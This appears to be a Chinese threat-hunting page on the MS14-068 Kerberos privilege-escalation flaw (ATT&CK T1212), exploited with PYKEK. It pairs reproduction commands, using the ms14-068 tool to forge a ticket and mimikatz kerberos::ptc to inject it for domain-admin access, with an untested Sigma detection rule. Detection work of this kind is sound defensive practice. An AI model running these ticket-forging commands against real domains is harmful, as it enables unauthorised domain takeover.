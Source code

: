 # T1212-Win-MS14-068-PYKEK

## 来自ATT&CK的描述

攻击者可能会利用软件漏洞来尝试收集凭据。当攻击者利用程序，服务或操作系统软件或内核本身内的编程错误来执行攻击者控制的代码时，就会利用软件漏洞。凭据和身份验证机制可能会被攻击者利用，以此作为获取有用凭据的途径或规避获取系统访问权限的过程。其中一个示例是MS14-068，它针对Kerberos，可用于使用域用户权限伪造Kerberos票证.对凭据访问的利用还可能导致特权升级，具体取决于目标过程或获取的凭据。

## 测试案例

可参考：[内网渗透之PTH&PTT&PTK](https://www.bbsmax.com/A/A7zgkjRPz4/)

## 检测日志

Windows 安全日志（AD域控日志）

## 测试复现

测试步骤

域控主机（Windows server 2008）
域内主机（Windows 7 SP1）

```cmd
whoami /user #域内主机查找当前用户SID
dir \\DC\C$  #查看访问DC的权限
ms14-.exe -u 域成员名@域名 -s 域成员sid -d 域控制器地址 -p 域成员密码 #域机器是可以和域控制器互通则会创建.ccache文件
```

票据注入

```cmd
mimikatz # kerberos::purge         //清空当前机器中所有凭证，如果有域成员凭证会影响凭证伪造
mimikatz # kerberos::list          //查看当前机器凭证
mimikatz # kerberos::ptc 票据文件   //将票据注入到内存中
```

使用mimikatz将票据注入到当前内存中，伪造凭证，如果成功则拥有域管理权限，可任意访问域中所有机器

## 测试留痕

测试留痕文件：[MS14-068-PYKEK-windows.log](https://github.com/12306Bro/Threathunting-book/tree/master/Eventdata/MS14-068/PYKEK)

## 检测规则/思路

### sigma规则

```yml
title: MS14-068-PYKEK
description: windows server 2008 / windows 7
references: https://github.com/ThreatHuntingProject/ThreatHunting/blob/master/hunts/golden_ticket.md
tags: T1212
status: experimental
author: 12306Bro
logsource:
    product: windows
    service: Security
detection:
    selection1:
        EventID: 4624 #账户登录
        Account Domain: '*.*' #新登录>账户域(正常情况下，账户域应为ABC，当存在PYKEK攻击时，账户域为ABC.COM)
        Account Name: '*' #新登录>账户名(不同于安全标识的帐户，此条件实现起来较为复杂)
    selection2:
        EventID: 4672 #管理员登录
        Account Domain: '*.*' #账户域(正常情况下，账户域应为ABC，当存在PYKEK攻击时，账户域为ABC.COM)
    selection3:
        EventID: 4768 #Kerberos TGS请求
        Supplied Realm Name: '*.*' #已提供的领域名称(正常情况下，已提供的领域名称应为ABC，当存在PYKEK攻击时，已提供的领域名称为ABC.COM)
    timeframe: last 5s
    condition: all of them
level: medium
```

### 建议

本规则未经过实际环境检验，谨慎使用

## 参考推荐

MITRE-ATT&CK-T1212

<https://attack.mitre.org/techniques/T1212/>

内网渗透之PTH&PTT&PTK

<https://www.bbsmax.com/A/A7zgkjRPz4/>

